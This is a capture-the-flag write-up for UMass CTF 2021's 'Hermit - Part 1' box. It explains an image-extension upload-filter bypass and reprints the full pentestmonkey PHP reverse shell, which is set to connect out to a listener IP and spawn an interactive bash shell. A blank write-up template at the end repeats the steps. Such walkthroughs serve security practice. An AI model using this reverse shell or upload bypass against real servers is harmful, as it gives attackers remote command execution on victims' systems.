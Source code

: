# UMASS CTF 2021

[UMASS CTF 2021](https://ctf.umasscybersec.org/challenges#)
[CTF Time](https://ctftime.org/event/1282)

---

- [UMASS CTF 2021](#umass-ctf-2021)
  - [Hermit - Part 1 (HP1)](#hermit---part-1-hp1)
    - [Description - HP1](#description---hp1)
    - [Process - HP1](#process---hp1)
    - [Screen Grabs - HP1](#screen-grabs---hp1)
      - [User Shell - HP1](#user-shell---hp1)
      - [User Flag - HP1](#user-flag---hp1)
      - [Root LUL - HP1](#root-lul---hp1)
      - [Proof - HP1](#proof---hp1)
    - [Tools Used - HP1](#tools-used---hp1)
  - [Example Challenge Name (ECN1)](#example-challenge-name-ecn1)
    - [Description - ECN1](#description---ecn1)
    - [Process - ECN1](#process---ecn1)
    - [Screen Grabs - ECN1](#screen-grabs---ecn1)
    - [Tools User - ECN1](#tools-user---ecn1)

---

## Hermit - Part 1 (HP1)

### Description - HP1

Author: goproslowyo

This box was a simple extension filter bypass to gain a shell and get the flag.

### Process - HP1

1. Started `netcat` listener on `8001`.
2. Uploaded php reverse shell with an image extension -- `.png` worked fine.
3. We're given a random filename and a link to view it.
4. Viewing the link executed the reverse shell.
  `http://34.121.84.161:8086/show.php?filename=0YE8gg`.

```shell
hermit@aec9a5b5ef1d:/$ ls /home/hermit
ls /home/hermit
userflag.txt
hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
cat /home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### Screen Grabs - HP1

#### User Shell - HP1

![user shell](./assets/HP1/shell.png)

#### User Flag - HP1

![userflag.txt](./assets/HP1/flag.png)

#### Root LUL - HP1

![{a_test_of_integrity}](./assets/HP1/rootlol.png)

#### Proof - HP1

![proof](./assets/HP1/proof.png)

### Tools Used - HP1

1. [Pentest Monkey PHP Revshell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit(0);
$VERSION = "1.0";
$ip = '34.251.165.208';
$port = 8001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; whoami; /bin/bash -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
  $pid = pcntl_fork();
  if ($pid == -1) {
    printit("ERROR: Can't fork");
    exit(1);
  }
  if ($pid) {
    exit(0);  // Parent exits
  }
  if (posix_setsid() == -1) {
    printit("Error: Can't setsid()");
    exit(1);
  }
  $daemon = 1;
} else {
  printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
  printit("$errstr ($errno)");
  exit(1);
}
$descriptorspec = array(
  0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
  1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
  2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
  if (feof($sock)) {
    printit("ERROR: Shell connection terminated");
    break;
  }
  if (feof($pipes[1])) {
    printit("ERROR: Shell process terminated");
    break;
  }
  $read_a = array($sock, $pipes[1], $pipes[2]);
  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
  if (in_array($sock, $read_a)) {
    if ($debug) printit("SOCK READ");
    $input = fread($sock, $chunk_size);
    if ($debug) printit("SOCK: $input");
    fwrite($pipes[0], $input);
  }
  if (in_array($pipes[1], $read_a)) {
    if ($debug) printit("STDOUT READ");
    $input = fread($pipes[1], $chunk_size);
    if ($debug) printit("STDOUT: $input");
    fwrite($sock, $input);
  }
  if (in_array($pipes[2], $read_a)) {
    if ($debug) printit("STDERR READ");
    $input = fread($pipes[2], $chunk_size);
    if ($debug) printit("STDERR: $input");
    fwrite($sock, $input);
  }
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit($string) {
  if (!$daemon) {
    print "$string\n";
  }
}
?>
```

---

template:

## Example Challenge Name (ECN1)

### Description - ECN1

Author: you

Quick overview of box, e.g. this box was a simple extension filter bypass to gain a shell and get the flag.

### Process - ECN1

1. Started `netcat` listener on `8001`.
2. Uploaded php reverse shell with an image extension -- `.png` worked fine.
3. We're given a random filename and a link to view it.
4. Viewing the link executed the reverse shell.
  `http://34.121.84.161:8086/show.php?filename=0YE8gg`.

```shell
hermit@aec9a5b5ef1d:/$ ls /home/hermit
ls /home/hermit
userflag.txt
hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
cat /home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### Screen Grabs - ECN1

![user shell](./assets/ECN1/shell.png)
![userflag.txt](./assets/ECN1/flag.png)
![{a_test_of_integrity}](./assets/ECN1/rootlol.png)
![proof](./assets/ECN1/proof.png)

### Tools User - ECN1

1. A tool [link](https://somewhere.local)
2. B Tool
3. C Tool
